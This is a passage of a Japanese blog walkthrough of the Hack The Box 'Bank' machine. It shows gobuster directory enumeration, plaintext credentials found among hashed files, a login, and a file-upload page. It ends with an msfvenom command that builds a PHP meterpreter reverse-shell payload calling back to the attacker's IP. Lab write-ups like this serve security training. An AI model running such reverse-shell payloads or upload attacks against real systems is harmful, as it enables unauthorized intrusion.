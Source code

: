 ```
[+] Timeout:        10s
===============================================================
2020/06/11 14:45:25 Starting gobuster
===============================================================
/uploads (Status: 301)
/assets (Status: 301)
/inc (Status: 301)
/server-status (Status: 403)
/balance-transfer (Status: 301)
===============================================================
2020/06/11 14:54:23 Finished
===============================================================
```

先ほどとは違っていくつかのディレクトリが検出されました。
なにか情報が格納されているディレクトリを探索していると/balance-transferにはログイン情報がハッシュ化して保存されているものが大量に見つかります。

![スクリーンショット 2020-06-11 17.12.32.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/69e5054a-ae7e-d616-d450-af1dd8fb2bb7.png)

![スクリーンショット 2020-06-11 17.12.48.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/cebb4b3d-74b7-eae5-94c8-aa8e8809d192.png)

試しにいくつかCrackStationを使ってパスワードクラックができないかを調べてみたのですが、ログイン情報を割り出すことができません。
そこで上の表示にあるSizeからサイズ順に並び替えて見ると一つだけサイズの小さいファイルがあることが分かります。

![スクリーンショット 2020-06-11 17.18.01.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/8929c706-d7e4-7cb7-ca5c-f46eb7d9aad6.png)

![スクリーンショット 2020-06-11 17.20.04.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/1cacf109-da3f-1d91-59ac-72ab2659db72.png)

このファイルにハッシュ化されていないログイン情報が見つかります。
これを使ってlogin.phpでログインしてみましょう。

# 侵入

![スクリーンショット 2020-06-11 17.24.10.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/680208a7-a35e-ed0c-810a-eac71cb63e79.png)

Bank(銀行)らしくお金に関する個人のページにアクセスできました。
ここからSupportのページに飛んでみると、ファイルをアップロードできることが分かります。

![スクリーンショット 2020-06-11 17.30.00.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/3826db9e-8b15-ddc6-0ce2-09df08f961a3.png)

msfvenomを使って、reverse_shellを確立できるペイロードを作成しましょう。

```
┌─[yukitsukai@parrot]─[~/htb/Bank]
└──╼ $msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f raw > reverse.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1111 bytes
```

次に通信を待ち受けるためハンドラをセットしておきます。
